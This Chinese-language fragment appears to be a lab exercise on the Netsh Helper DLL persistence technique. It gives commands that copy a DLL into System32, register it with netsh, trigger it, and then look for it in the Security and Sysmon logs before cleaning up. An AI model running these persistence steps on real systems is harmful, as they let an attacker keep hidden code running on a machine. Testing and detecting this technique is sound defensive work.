 ### 攻击步骤
1. **部署恶意DLL**  
   - 将测试DLL复制到`C:\Windows\System32\`：
     ```cmd
     copy malicious.dll C:\Windows\System32\malicious.dll
     ```

2. **注册Netsh Helper DLL**  
   - 使用`netsh`添加Helper：
     ```cmd
     netsh add helper C:\Windows\System32\malicious.dll
     ```
   - 验证注册表：
     ```powershell
     Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Netsh"
     ```

3. **触发执行**  
   - 运行Netsh命令：
     ```cmd
     netsh interface show interface
     ```
   - 观察DLL是否加载（如弹出消息框）。

4. **验证结果**  
   - 检查注册表：
     ```powershell
     Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Netsh" | Select-Object malicious
     ```
   - 检查日志：  
     - **Windows安全日志（事件ID 4688）**：
       ```powershell
       Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4688 -and $_.Message -match "netsh.exe" }
       ```
     - **Sysmon日志（事件ID 13）**：
       ```powershell
       Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object { $_.Id -eq 13 -and $_.Message -match "Netsh" }
       ```

5. **清理**  
   - 删除注册表键：
     ```cmd
     reg delete "HKLM\SOFTWARE\Microsoft\Netsh" /v malicious /f
     ```
   - 删除DLL：
     ```cmd
     del C:\Windows\System32\malicious.dll
     ```

### 示例输出
```cmd
netsh add helper C:\Windows\System32\malicious.dll
OK

netsh interface show interface
<触发DLL执行，可能弹出消息框>

reg delete "HKLM\SOFTWARE\Microsoft\Netsh" /v malicious /f
The operation completed successfully.
```
